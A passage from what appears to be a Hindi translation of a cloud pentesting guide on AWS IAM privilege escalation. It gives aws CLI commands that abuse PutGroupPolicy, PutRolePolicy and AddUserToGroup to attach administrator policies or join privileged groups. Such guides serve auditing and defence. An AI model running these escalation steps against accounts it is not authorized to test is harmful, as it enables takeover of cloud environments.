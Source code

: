 ```json
"*"
],
"Resource": [
"*"
]
}
]
}
```
**संभावित प्रभाव:** किसी भी चीज़ के लिए सीधी उन्नयन.

### `iam:PutGroupPolicy`

`iam:PutGroupPolicy` अनुमति वाले एक हमलावर अपने भागीदारी वाले समूह के लिए एक इनलाइन नीति बनाकर या अपडेट करके विशेषाधिकारों को बढ़ा सकता है, और उस नीति की अनुमतियों को हमलावर को जोड़ सकता है।
```bash
aws iam put-group-policy --group-name <group_i_am_in> \
--policy-name "group_inline_policy" \
--policy-document file:///path/to/administrator/policy.json
```
जहां समूह है **वर्तमान उपयोगकर्ता का एक समूह**।

**संभावित प्रभाव:** किसी भी चीज़ के लिए सीधी उन्नति।

### `iam:PutRolePolicy`, (`sts:AssumeRole`|`iam:createrole`)

**`iam:PutRolePolicy`** अनुमति वाले एक हमलावर उपयोगकर्ता को अधिकारों को बढ़ाने के लिए अधिकारों को जोड़कर या अद्यतन करके अपने पहुंच वाले भूमिका के लिए एक इनलाइन नीति बना सकता है।

इस विधि को उपयोग करने के लिए एक उदाहरण कमांड इस तरह से दिख सकती है:
```bash
aws iam put-role-policy --role-name <role_i_can_assume> \
--policy-name "role_inline_policy" \
--policy-document file:///path/to/administrator/policy.json
```
जहां रोल एक रोल है जिसे वर्तमान उपयोगकर्ता `sts:AssumeRole` के साथ अस्थायी रूप से अवलंबित कर सकता है।

**पोटेंशियल प्रभाव:** किसी भी चीज़ के लिए सीधी उन्नति।

### `iam:AddUserToGroup`

**`iam:AddUserToGroup`** अनुमति वाले एक हमलावर इसे उपयोग कर सकते हैं **अपने आप को AWS खाते में मौजूदा IAM समूह में जोड़ने** के लिए।
```bash
aws iam add-user-to-group --group-name <target_group> --user-name <my_username>
```
जहां **target\_group** हमलावर के उपयोगकर्ता खाते से अधिक/अलग अधिकार होते हैं।

**संभावित प्रभाव:** किसी भी समूह में सीधी प्रवेशाधिकार प्राप्त करना।

### `iam:UpdateAssumeRolePolicy`, `sts:AssumeRole`
